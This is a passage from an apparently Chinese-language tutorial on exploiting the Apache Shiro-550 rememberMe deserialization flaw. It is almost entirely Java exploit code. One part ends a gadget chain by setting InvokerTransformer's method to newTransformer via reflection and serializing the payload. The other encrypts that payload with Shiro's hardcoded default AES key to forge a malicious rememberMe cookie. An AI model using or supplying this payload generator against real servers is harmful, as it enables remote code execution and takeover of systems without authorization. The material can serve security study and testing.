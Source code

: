 ```java
        outerMap.remove(templates);
        // 通过反射修改iMethodName值为newTransformer
        Field f = invokerTransformer.getClass().getDeclaredField("iMethodName");
        f.setAccessible(true);
        f.set(invokerTransformer, "newTransformer");
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);

    }
    
}
```

根据对应的`AbstractRememberMeManager#encrypt()`方法编写加密
```java
package com.shiro;

import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.InputStream;

/**
 * Created by dotast on 2022/10/10 10:45
 */
public class Shiro550 {
    public static void main(String[] args) throws Exception {
        String path = "1.txt";
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(path), key);
        System.out.printf(ciphertext.toString());
    }


    public static byte[] getBytes(String path) throws Exception{
        InputStream inputStream = new FileInputStream(path);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;

    }
}
```
